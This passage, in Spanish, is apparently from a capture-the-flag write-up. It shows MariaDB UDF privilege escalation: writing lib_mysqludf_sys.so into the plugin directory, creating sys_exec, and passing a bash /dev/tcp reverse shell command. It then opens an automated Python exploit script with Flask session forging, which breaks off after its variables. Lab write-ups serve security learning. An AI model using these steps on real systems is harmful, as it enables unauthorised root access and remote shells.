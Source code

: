```sql
MariaDB [mysql]> select @@plugin_dir;
+---------------------------------------------+
| @@plugin_dir                                |
+---------------------------------------------+
| /usr/lib/x86_64-linux-gnu/mariadb19/plugin/ |
+---------------------------------------------+
MariaDB [mysql]> select library from privesc into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/lib_mysqludf_sys.so';
```

> Luego queda crear nuestra función, pero para ello debemos saber el nombre de la función, por ello usamos `ghidra` para analizar la librería

![GHidraUdf](ghidra_udf_lib.png){: .shadow}

Filtramos por la palabra `sys` y encontramos varias funciones, de las cuales usaremos `sys_exec`. Tambien logramos ver el código gracias al **conjunto de compiladoreS de GNU (GNU Compiller Collection)** y observamos que la función executara el comando con la función `system` y retornará como respuesta un código de estado (0 -> exitoso)

> Como ya conocemos su nombre y lo que retornará, procedemos a crear la función usando con el nombre adecuado y usando la librería

```sql
MariaDB [mysql]> create function sys_exec returns integer soname 'lib_mysqludf_sys.so';
```

> Como último paso solo queda pasar como parámetro el comando que queremos ejecutar (e.g 'bash -c "bash -i >& /dev/tcp/\<ip\>/\<port\> 0>&1"')

```sql
MariaDB [mysql]> select sys_exec('{command}');
```

Para seguir practicando hice mi primer script automatizado en `python` que te da privilegios `root` aplicando todo lo visto anteriormente:

```python
import sys, signal, argparse, json, time, hashlib, requests, random, string, subprocess, shlex, os
from pwn import *
from itsdangerous import URLSafeTimedSerializer, TimestampSigner, BadSignature
from flask.json.tag import TaggedJSONSerializer

# debugging
import pdb

# ctrl + c
def signal_handler(signum, frame):
    log.failure("Interruption")
    os.system(f'rm {file_name}')
    sys.exit()

signal.signal(signal.SIGINT, signal_handler)

# arguments
parser = argparse.ArgumentParser(description='Get reverse shell')
parser.add_argument('-ip', type=str, required=True, help='ip-address to receive the shell')
parser.add_argument('-port', type=str, required=True, help='local port to receive the shell')
args = parser.parse_args()

# global variables
target_url = 'http://10.10.11.160:5000'
target_session_payload = dict(logged_in=True,username='blue')
file_name = 'pwned.md'
lib_name = 'lib_mysqludf_sys_64.so'
shell_name = 'pwned_mysqlUDF.py'
```
